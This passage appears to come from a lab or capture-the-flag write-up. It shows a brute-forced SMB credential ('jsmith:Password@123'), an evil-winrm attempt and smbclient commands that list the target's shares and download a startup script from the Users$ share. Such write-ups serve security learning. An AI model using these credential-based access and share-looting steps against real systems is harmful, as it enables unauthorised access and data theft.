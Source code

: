 ```md
VERBOSE => false
[+] 54.234.92.201:445     - 54.234.92.201:445 - Success: '.\jsmith:Password@123'
[*] 54.234.92.201:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
We have user jsmith with login password and this user has access to smb and not winrm
You can check it with evilwinrm but we cant login so we need to play with smb
```md
evil-winrm -i 54.234.92.201 -u jsmith -p Password@123
```
We can now try to list shares like we did earlier
```md
smbclient -L //54.234.92.201 -U jsmith%Password@123
```
```md
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	confidential    Disk      Confidential Information for authorized personnels only
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	secret          Disk      
	SYSVOL          Disk      Logon server share 
	Users$          Disk      Domain Users
	wwwroot         Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 54.234.92.201 failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available
```
Many shares to look into them. After a while, i got username and password of another user but another interest file i found
the first file was these that was seems interested 

```md
smbclient //54.234.92.201/Users$ -U jsmith%Password@123
```
```
└─$ smbclient //54.234.92.201/Users$ -U jsmith%Password@123
Try "help" to get a list of possible commands.
smb: \> cd "jsmith\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
smb: \jsmith\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\> dir
  .                                   D        0  Thu Feb 24 00:53:14 2022
  ..                                  D        0  Thu Feb 24 00:53:14 2022
  RunWallpaperSetupInit.cmd           A      744  Thu Feb 24 01:01:03 2022

		7863807 blocks of size 4096. 2616990 blocks available
smb: \jsmith\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\> get RunWallpaperSetupInit.cmd
getting file \jsmith\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\RunWallpaperSetupInit.cmd of size 744 as RunWallpaperSetupInit.cmd (0.8 KiloBytes/sec) (average 0.8 KiloBytes/sec)
smb: \jsmith\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\> q
┌──(blackninja23㉿arena)-[~/CYSEC]
└─$ cat RunWallpaperSetupInit.cmd 
@Echo Off
REM Render instance information on current wallpaper if this is the wallpaper was never changed by user.
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoProfile -NonInteractive -NoLogo -WindowStyle hidden -ExecutionPolicy Unrestricted "Import-Module "C:\ProgramData\Amazon\EC2-Windows\Launch\Module\Ec2Launch.psd1"; Set-Wallpaper -Initial" & REM DELETEME
type "%~f0" | findstr /v DELETEME > "%~dp0RunWallpaperSetup.cmd"
DEL /Q /F "%~f0" & REM DELETEME
GOTO :EOF & REM DELETEME
```